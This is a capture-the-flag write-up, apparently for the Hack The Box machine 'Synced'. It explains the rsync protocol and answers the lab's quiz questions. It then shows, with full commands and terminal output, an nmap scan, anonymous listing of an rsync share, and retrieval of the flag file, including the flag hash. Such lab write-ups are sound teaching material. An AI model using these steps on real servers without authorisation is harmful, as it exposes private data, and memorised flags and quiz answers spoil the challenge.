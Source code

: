 #rsync #protocols #anonymous-access #reconnaissance 

# 0. Theory

The best known file transfer service is the **File Transfer Protocol** (**FTP**). 
The main concern with FTP is that it is a very old and slow protocol. FTP is a protocol used for copying entire files over the network from a remote server. In many cases there is a need to transfer only some changes made to a few files and not to transfer every file every single time. For these scenarios, the **rsync** protocol is generally preferred.

The changes that need to get transfered are called **deltas**. Using `deltas` to update files is an extremely efficient way to reduce the required bandwidth for the transfer as well as the required time for the transfer to complete.

The official definition of `rsync` according to the Linux [manual](https://linux.die.net/man/1/rsync) page is:
	Rsync is a fast and extraordinarily versatile file copying tool. It can copy locally, to/from another host over any remote shell, or to/from a remote rsync daemon. It offers a large number of options that control every aspect of its behavior and permit very flexible specification of the set of files to be copied. It is famous for its deltatransfer algorithm, which reduces the amount of data sent over the network by sending only the differences between the source files and the existing files in the destination. Rsync is widely used for **backups** and mirroring and as an improved copy command for everyday use.

It follows directly from the definition of `rsync` that it's a great tool for creating/maintaining backups and keeping remote machines in sync with each other. Both of these functionalities are commonly implemented in corporate environment. In these environments time is of the essence, so `rsync` is preferred due to the speedup it offers for these tasks.

The main stages of an `rsync` transfer are the following:
1. `rsync` establishes a connection to the remote host and spawns another `rsync` receiver process.
2. The sender and receiver processes compare what files have changed.
3. What has changed gets updated on the remote host.

It often happens that `rsync` is misconfigured to permit anonymous login, which can be exploited by an attacker to get access to sensitive information stored on the remote machine. Synced is a Linux box that exposes a directory over `rsync` with anonymous login. We are able to remotely access this directory using the command line tool `rsync` and retrieve the flag.


**What is the default port for rsync?**
*873*

**What is the most common command name on Linux to interact with rsync?**
*rsync*

**What credentials do you have to pass to rsync in order to use anonymous authentication?**
*None*

**What is the option to only list shares and files on rsync?**
*--list-only*


# 1. Recon

Verify target and its connectivity.

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-v1vz9ikqbp]─[~]
	└──╼ [★]$ ping 10.129.16.103 -c 5
	PING 10.129.16.103 (10.129.16.103) 56(84) bytes of data.
	64 bytes from 10.129.16.103: icmp_seq=1 ttl=63 time=8.35 ms
	64 bytes from 10.129.16.103: icmp_seq=2 ttl=63 time=8.08 ms
	64 bytes from 10.129.16.103: icmp_seq=3 ttl=63 time=8.23 ms
	64 bytes from 10.129.16.103: icmp_seq=4 ttl=63 time=8.29 ms
	64 bytes from 10.129.16.103: icmp_seq=5 ttl=63 time=8.20 ms
	
	--- 10.129.16.103 ping statistics ---
	5 packets transmitted, 5 received, 0% packet loss, time 4003ms
	rtt min/avg/max/mdev = 8.077/8.227/8.354/0.092 ms

# 2. Enumeration

We will be using the following nmap flags for scanning the host's ports:

	-p- : This flag scans for all TCP ports ranging from 0-65535
	-sV : Attempts to determine the version of the service running on a port
	--min-rate : This is used to specify the minimum number of packets that Nmap should send per second; it speeds up the scan as the number goes higher

`nmap -p- --min-rate=1000 -sV {target_IP}`

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-v1vz9ikqbp]─[~]
	└──╼ [★]$ nmap --min-rate=1000 -p- -sV 10.129.16.103
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 14:11 CDT
	Nmap scan report for 10.129.16.103
	Host is up (0.0094s latency).
	Not shown: 65534 closed tcp ports (reset)
	PORT    STATE SERVICE VERSION
	873/tcp open  rsync   (protocol version 31)
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 13.09 seconds

The scan shows that only port **873** is open. Moreover, Nmap informs us that the service running on this port is `rsync`.

`rsync` is an open source utility that provides fast incremental file transfer. The way `rsync` works makes it an excellent choice when there is a need to synchronize files between a computer and a storage drive and across networked computers. Because of the flexibility and speed it offers, it has become a standard Linux utility, included in all popular Linux distribution by default.

## Connecting to rsync
`rsync` is already pre-installed on almost all Linux distributions.
The generic syntax used by rsync is the following:
`rsync [OPTION] … [USER@]HOST::SRC [DEST]`

where *SRC* is the file or directory (or a list of multiple files and directories) to copy from, *DEST* is the file or directory to copy to, and square brackets indicate optional parameters.

The `[OPTION]` portion of the syntax, refers to the available options in `rsync` .

The `[USER@]` optional parameter is used when we want to access the the remote machine in an authenticated way. In this case, we don't have any valid credentials, so we will omit this portion and try an anonymous authentication.

As our first attempt we will try to simply list all the available directories to an anonymous user. Reading through the manual page we can spot the option `--list-only`, which according to the definition is used to "list the files instead of copying them".

And so we have crafted our first command that we can use to interact with the remote machine:
`rsync --list-only {target_IP}::`

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-v1vz9ikqbp]─[~]
	└──╼ [★]$ rsync --list-only 10.129.16.103::
	public         	Anonymous Share

Looking at the output, we can see that we can access a directory called `public` with the description `Anonymous Share` . It is a common practice to call shared directories just `shares`. Let's go a step further and list the files inside the `public` share.

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-v1vz9ikqbp]─[~]
	└──╼ [★]$ rsync --list-only 10.129.16.103::public
	drwxr-xr-x          4,096 2022/10/24 17:02:23 .
	-rw-r--r--             33 2022/10/24 16:32:03 flag.txt

We notice a file called `flag.txt` inside the public share. Our last step is to copy/sync this file to our local machine. To do that, we simply follow the general syntax by specifying the `SRC` as `public/flag.txt` and the `DEST` as `flag.txt` to transfer the file to our local machine.
Then we just `cat` the text file's content to read the flag hash.

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-v1vz9ikqbp]─[~]
	└──╼ [★]$ rsync 10.129.16.103::public/flag.txt flag.txt
	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-v1vz9ikqbp]─[~]
	└──╼ [★]$ ls
	cacert.der  Documents  flag.txt  my_data   Public     Videos
	Desktop     Downloads  Music     Pictures  Templates
	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-v1vz9ikqbp]─[~]
	└──╼ [★]$ cat flag.txt 
	72eaf5344ebb84908ae543a719830519



https://www.hackthebox.com/achievement/machine/2057492/515
![[Pasted image 20240828213131.png]]